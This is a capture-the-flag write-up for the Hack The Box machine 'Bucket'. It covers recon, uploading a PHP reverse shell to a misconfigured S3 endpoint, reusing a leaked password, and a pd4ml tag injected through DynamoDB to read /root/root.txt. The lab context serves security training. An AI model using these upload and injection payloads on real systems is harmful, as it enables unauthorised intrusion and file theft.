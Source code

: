 # Box 



![bucket](img/Screenshot_2020-12-24_17-19-42.png)

https://www.hackthebox.eu/home/machines/profile/283





# Profile

 <img src="http://www.hackthebox.eu/badge/image/296177" alt="Hack The Box"> 

https://www.hackthebox.eu/home/users/profile/296177

# Table of contents

* [Reconnaissance](#Reconnaissance)
* [Exploitation](#exploitation)
* [Post-Exploitation](#post-exploitation)
  + [User](#user)
  + [Root](#root)

# Contents 

 

## Reconnaissance

Let's start with nmap :

```bash
nmap -A -oN nmap 10.10.10.212
```



![Screenshot_2020-12-21_11-46-40](img/Screenshot_2020-12-21_11-46-40.png)

There's a website so I checked the source code and we can see that the images are uploaded in a "s3.bucket.htb" subdomain. I searched for "bucket" vulnerability and we see exploits for misconfigured bucket. Unfortunaly I found nothing on the website.

I've done a gobuster on the  http://s3.bucket.htb and we find a webshell.

![Screenshot_2020-12-21_14-35-19](img/Screenshot_2020-12-21_14-35-19.png)



After readings a lot of documentation, I try to get the user table.

![Screenshot_2020-12-21_14-49-01](img/Screenshot_2020-12-21_14-49-01.png)

We got credentials in the database which will be useful later.

![`Screenshot_2020-12-21_14-44-09`](img/Screenshot_2020-12-21_14-44-09.png)



I was blocked during hours, I read a lot of documentation about aws, that's where I start using the aws cli and understand how it works.

I use aws acli to get list of all buckets installed.

![Screenshot_2020-12-22_11-46-40](img/Screenshot_2020-12-22_11-46-40.png)

## Exploitation

Let's try to upload our own bucket : 

```bash
aws s3 cp ./reverse_shell.php s3://adserver --endpoint-url http://s3.bucket.htb/
```



![Screenshot_2020-12-22_04-07-28](img/Screenshot_2020-12-22_04-07-28.png)

It does work and now you need to go to http://bucket.htb/reverse_shell.php to get your reverse_shell.

![Screenshot_2020-12-22_07-37-38](img/Screenshot_2020-12-22_07-37-38.png)

## Post-Exploitation

### User

We are in but we are not a user. But we see a user in the /home, there is a roy directory. 

Based on the credentials we got earlier I try the password "n2vM-<_K_Q:.Aa2" which is the sysadm password and it works, we grab our user.txt hash and go on root. 

### Root

We do an enumeration and we find a port :8000 where it seems to have a webpage.

![Screenshot_2020-12-22_09-58-13](img/Screenshot_2020-12-22_09-58-13.png)

We need to redirect the port to our local  machine to be able to interact with the port. From the remote machine you can do :

```bash
ssh -R 8000:localhost:8000 kali@10.10.14.143 
```

Or from your local machine : 

```bash
ssh -L 8000:127.0.0.1:8000 roy@10.10.10.212
```



We can see the website :

![Screenshot_2020-12-22_09-59-43](img/Screenshot_2020-12-22_09-59-43.png)



I search for a file called "index*" on the remote machine and we find an index.php file which contains this code : 

![Screenshot_2020-12-22_14-23-34](img/Screenshot_2020-12-22_14-23-34.png)

It seems that we can generate a pdf with a specific crafted POST request. I will use BURP for that request.

I just add to my request in burp this POST parameter to trigger the if statement : 

```php
action=get_alerts 
```

We got a 500 internal server error. 

![Screenshot_2020-12-22_14-25-46](img/Screenshot_2020-12-22_14-25-46.png)

I dig more in the code and I undestand the problem. The php code from a specific table which does not exist if we don't create it, so I read more documentation about how the Dynamodb works and how to create a proper table called "alerts" with a specific data in it, which is "Ransomware" here.We also have to insert a data called "data" to inject in the pdf.

Here you can see the payload which send dummy data for now : 

```bash
aws dynamodb create-table \
        --table-name alerts \
        --attribute-definitions AttributeName=title,AttributeType=S  AttributeName=data,AttributeType=S\
        --key-schema KeyType=HASH,AttributeName=data KeyType=RANGE,AttributeName=title  \
        --endpoint-url http://localhost:4566 \
        --provisioned-throughput ReadCapacityUnits=100,WriteCapacityUnits=100

TEMPLATE='{"title":{"S":"Ransomware"},"data":{"S": "our_payload"}}'
aws dynamodb put-item --table-name alerts --item "$TEMPLATE" --endpoint-url http://localhost:4566
```

It does work, we have a pdf where we can see our data "our_payload" in it.

For the last step you need to understand how you can inject code in the pdf and read our root.txt file (https://pd4ml.com/cookbook/pdf-attachments.htm). 

Replace the template value with this line :

````bash
{"title":{"S":"Ransomware"},"data":{"S": "<pd4ml:attachment description=\"root.txt\" icon=\"PushPin\">file:///root/root.txt</pd4ml:attachment>"}}
````

We got our root.txt file.![Screenshot_2020-12-22_16-32-16](img/Screenshot_2020-12-22_16-32-16.png)



Rooted.
